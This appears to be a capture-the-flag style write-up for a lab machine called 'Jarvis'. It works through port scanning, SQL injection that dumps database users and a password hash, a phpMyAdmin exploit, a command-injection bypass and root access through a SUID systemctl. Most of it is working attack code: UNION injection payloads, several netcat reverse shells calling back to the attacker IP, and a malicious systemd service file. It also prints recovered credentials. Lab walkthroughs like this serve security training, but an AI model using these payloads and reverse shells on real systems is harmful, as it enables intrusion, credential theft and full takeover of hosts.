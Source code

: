 # Summary



## about target

tip:  10.129.227.147

hostname:  jarvis

Difficulty:  Medium



## about attack

+ sqli fuzz, obtain the creds.
+ python script audit, bypass command injection
+ systemctl suid privesc, exploit service to root.





**attack note**

```bash
Jarvis / 10.129.227.147

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03f34e22363e3b813079ed4967651667 (RSA)
|   256 25d808a84d6de8d2f8434a2c20c85af6 (ECDSA)
|_  256 77d4ae1fb0be151ff8cdc8153ac369e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).

----interesting things
IronWAF: 2.0.3 
DBadmin:imissyou

---- http enum


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log -x php,txt

wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hw 443 http://10.129.227.147/room.php?cod=FUZZ

sqli payload 
1 or benchmark(10000000,MD5(1))#

---- eploit sqli

# union check result column count
0 union select 1,2,3,4,5,6,7

# group_concat, obtain the db info
# hotel,information_schema,mysql,performance_schema
100+union+SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -

# hotel, table info
# room
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='hotel' ;-- -

# column info
# cod,name,price,descrip,star,image,mini
SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room' ;-- -

# mysql, table info
# column_stats,columns_priv,db,event,func,general_log,gtid_slave_pos,help_category,help_keyword,help_relation,help_topic,host,index_stats,innodb_index_stats,innodb_table_stats,plugin,proc,procs_priv,proxies_priv,roles_mapping,servers,slow_log,table_stats,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- -

# mysql, user, column info
# Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string,password_expired,is_role,default_role,max_statement_time

SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='user' ;-- -

# mysql, user, table data
# dbadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
SELECT 1, user, 3, 4, password, 6, 7 from mysql.user;-- -


---- exploit phpmyadmin
https://www.exploit-db.com/exploits/50457

python 50457.py $tip 80 /phpmyadmin DBadmin imissyou "nc 10.10.14.78 9001 -e /bin/bash"

---- local enum
python -c 'import pty; pty.spawn("/bin/bash")'

www-data, sudo -l 
/var/www/Admin-Utilities/simpler.py

bypass ping os cmd injection. $()

echo 'nc -e /bin/bash 10.10.14.78 9002' > /tmp/a.sh

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

echo '[Service]
Type=oneshot
ExecStart=/tmp/a.sh
[Install]
WantedBy=multi-user.target' > hack.service

echo "[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.78 9001'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target" > hack2.service

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```



## http enum

gobuster dir scan;



![image-20221103142200083](./images/image-20221103142200083.png)



![image-20221101222750743](./images/image-20221101222750743.png)







![image-20221102150553379](./images/image-20221102150553379.png)



# Exploit



## sqli



![image-20221102150824792](./images/image-20221102150824792.png)





![image-20221102181423673](./images/image-20221102181423673.png)

## phpmyadmin exploit 

```bash
https://www.exploit-db.com/exploits/50457

python 50457.py $tip 80 /phpmyadmin DBadmin imissyou "nc 10.10.14.78 9001 -e /bin/bash"
```



# Privexc



## local enum

www-data, sudo -l

/var/www/Admin-Utilities/simpler.py

![image-20221103160625513](./images/image-20221103160625513.png)



$ bypass ping check.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

10.10.10.$(echo 78)
```



## pepper shell

```bash
echo 'nc -e /bin/bash 10.10.14.78 9002' > /tmp/a.sh
chmod +x /tmp/a.sh

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
/tmp/a.sh
```

## root

suid file, /bin/systemctl

exploit service to root

```bash
echo "[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.78 9001'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target" > hack2.service
```



```bash
systemctl link /tmp/hack2.service
systemctl start hack2
```



